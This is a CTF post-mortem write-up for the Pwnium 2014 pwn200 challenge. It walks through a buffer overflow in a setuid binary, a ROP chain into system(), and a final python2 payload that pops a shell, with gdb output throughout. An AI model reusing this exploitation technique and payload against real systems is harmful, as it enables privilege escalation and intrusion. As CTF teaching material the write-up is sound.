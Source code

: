 title: Be a Robot
date: 2014-07-30
author: makefu
tags: crackme, pwnium2014, post-mortem

 * **Solved by**: makefu

## Intro
First of all, this is a post-mortem solution for pwn200 as we failed to finish
it within ctf time both because the challenge was offline alot of the time and
that we were not experienced enough to find a solution.

The challenge was to elevate privileges on a remote server to a user which was
able to read the file $HOME/flag . The folder also contained a file named
pwn200 which had suid bit set for the user -> pop a shell by finding a vuln in
this program.

## Track the Vuln
Running the program looks like this:

    :::bash
    $ ./pwn200 
    Name: Bob
    Age: 10
    Goodbye little boy

    $ ./pwn200
    Name: Khan
    Age: -1
    [1]    6141 segmentation fault  ./pwn200

When supplying a negative age `eax` will not be updated in the function atExit
and the pointer will stay uninitialized. 

![failed check in atExit](data/be_a_robot/atExit.png)

The fgets which reads the name contains a buffer overflow which allows us to override exactly this pointer.

![bof in read\_user](data/be_a_robot/read_user.png)

Trying it in gdb looks like this:

    :::gdb
    (gdb) br *0x8048670 # call eax
    Breakpoint 1 at 0x8048670
    (gdb) r
    Starting program: /home/makefu/pwnium/200/pwn200 
    warning: Could not load shared library symbols for linux-gate.so.1.
    Do you need "set solib-search-path" or "set sysroot"?
    Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Breakpoint 1, 0x08048670 in atExit ()
    (gdb) disass 
    Dump of assembler code for function atExit:
      0x08048660 <+36>:  cmp    DWORD PTR [ebp+0x8],0x0
      0x08048664 <+40>:  jle    0x804866d <atExit+49>
      0x08048666 <+42>:  mov    DWORD PTR [ebp-0xc],0x804860c
      0x0804866d <+49>:  mov    eax,DWORD PTR [ebp-0xc]
    => 0x08048670 <+52>:  call   eax
      0x08048672 <+54>:  leave  
      0x08048673 <+55>:  ret    
    End of assembler dump.
    (gdb) i r eax
    eax            0x41414141 1094795585

## Prepare the stack for ROP
We cannot directly execute our name string as both ASLR and NX-Stack are enabled but there is a system call in a unused function called `test`:

    :::gdb
    (gdb) disassemble test
    Dump of assembler code for function test:
      0x08048694 <+0>: push   ebp
      0x08048695 <+1>: mov    ebp,esp
      0x08048697 <+3>: sub    esp,0x8
      0x0804869a <+6>: sub    esp,0xc
      0x0804869d <+9>: push   0x80487f3
      0x080486a2 <+14>:  call   0x8048430 <system@plt>
      0x080486a7 <+19>:  add    esp,0x10
      0x080486aa <+22>:  leave  
      0x080486ab <+23>:  ret    
    End of assembler dump.

Too bad we cannot directly prepare the stack with our provided text to supply a string which then can be executed. 
To be clear: we currently only control eip, not the whole stack. ROP to the rescue!

This is how our stack must look like for a successful exploit:

| Address  | Description |
|---------|------------:|
| call system          | <- esp                      |
| [command-string]     | <- esp + 4 (first argument) |

The ROP gadget i used is a simple 'pop-ret' which can be found with for example [msfrop]( http://shell-storm.org/project/ROPgadget/ ) or [ROPgadget](http://shell-storm.org/project/ROPgadget/). POP-RET is at `0x080487a6`.

By that we can prepare our input as an argument for the system call. As we have no shell command yet we will used `0x80487f3` - 'echo pwned' for testing.


### Follow the Execution Flow
These tables show the stack after each ROP step.

**Before call ROP**

| Address  | Description |
|:---------|:-----------:|
| [A\*36]     | BOF Filler    |
| [AAAA]      | BOF Filler    |
| 0x080486a2 `esp` | call system   | 
| 0x080487f3  | "echo hacked" |
| [BBBB]      | Filler        |
| 0x080487a6 `eip` | pop ebx;ret   | 

**After ret from pop-ret ROP Gadget**

| Address  | Description |
|:---------|:-----------:|
| [A\*32]     | BOF Filler        |
| 0x08048672  | ret addr call-eax |
| 0x080486a2  | call system       |
| 0x080487f3 `esp`  | "echo hacked"     |
| [BBBB]      | Filler            |
| 0x080487a6  | pop ebx;ret       |

**After call system**

| Address  | Description |
|:---------|:-----------:|
| [A\*32]     | BOF Filler           |
| 0x08048672  | ret addr call-eax    |
| 0x080486a2 `esp` | ret addr call-system |
| 0x080487f3 `parm1` | "echo hacked"        | 
| [BBBB]      | Filler               |
| 0x080487a6  | pop ebx;ret          |

**Quick Sidenote:**

 1. `call address` pushes the return address($eip+sizeof(call)) onto the stack and executes the function at  **address**.
 2. *ret* pops the return address from the stack and executes the address

The payload generation and testing looks like this:

    :::bash
    python2 -c 'print("A"*36+"\xa2\x86\x04\x08"+"\x01\x8c\x04\x08"+"BBBB"+ "\xa6\x87\x04\x08"+"CCCC"+"DDDD"+ "EEE\n" +"-1")'  > in
    gdb ./pwn200
    (gdb) r < in
    Starting program: ./pwn200 < in
    hacked
    Name: Age: [Inferior 1 (process 11968) exited normally]



### Find the exec string

We need a string address for system argument which allows us to run whatever commands we want. Due to the fact aslr is enabled hitting our 36 bytes short buffer is kind of unlikely. Using environment variables with `" "\*9001 +"/bin/sh"` may give us a better chance to guess the address but is still pretty crude.

`"sh"` which is short and gives us full access may reside in the executable after being loaded in the memory so i gave it a shot with gdb:
    
    :::gdb 
    (gdb) break main
    Breakpoint 1 at 0x8048701A
    (gdb) start
    (gdb) info proc mappings
    process 11324
    Mapped address spaces:

      Start Addr   End Addr       Size     Offset objfile
      0x8048000  0x8049000     0x1000        0x0 /home/makefu/pwnium/200/pwn200
      0x8049000  0x804a000     0x1000        0x0 /home/makefu/pwnium/200/pwn200
      0xf7564000 0xf7565000     0x1000        0x0 
      0xf7565000 0xf7720000   0x1bb000        0x0 /usr/lib32/libc-2.19.so
      0xf7720000 0xf7723000     0x3000   0x1ba000 /usr/lib32/libc-2.19.so
      0xf7723000 0xf7725000     0x2000   0x1bd000 /usr/lib32/libc-2.19.so
      0xf7725000 0xf7727000     0x2000        0x0 
      0xf7757000 0xf7759000     0x2000        0x0 
      0xf7759000 0xf775a000     0x1000        0x0 [vdso]
      0xf775a000 0xf777b000    0x21000        0x0 /usr/lib32/ld-2.19.so
      0xf777b000 0xf777c000     0x1000        0x0 
      0xf777c000 0xf777d000     0x1000    0x21000 /usr/lib32/ld-2.19.so
      0xf777d000 0xf777e000     0x1000    0x22000 /usr/lib32/ld-2.19.so
      0xffeba000 0xffedb000    0x21000        0x0 [stack]
    (gdb) find 0x08048000, +5000, "sh"
    0x8048c01
    1 pattern found.

Instead of 0x80487f3 we are now using 0x8048c01.

## Putting it all together

    :::bash
    # first pipe the shellcode, then use stdin
    (python2 -c 'print("A"*36+"\xa2\x86\x04\x08"+"\x01\x8c\x04\x08"+"BBBB"+ "\xa6\x87\x04\x08"+"CCCC"+"DDDD"+ "EEE\n" +"-1")'; cat) | ./pwn200
    ls /
    bin   dev  krebs  media  root  sbin  sys  usr  var
    boot  etc  home   lib    mnt   proc  run  tmp


## Cheers
To [Team Action Kaktus](https://ctftime.org/team/6997) on ctftime for making a writeup with a nonfunct solution, this made me try hard enough to finish it by myself.

[Download the pwn200 binary](data/be_a_robot/pwn200)
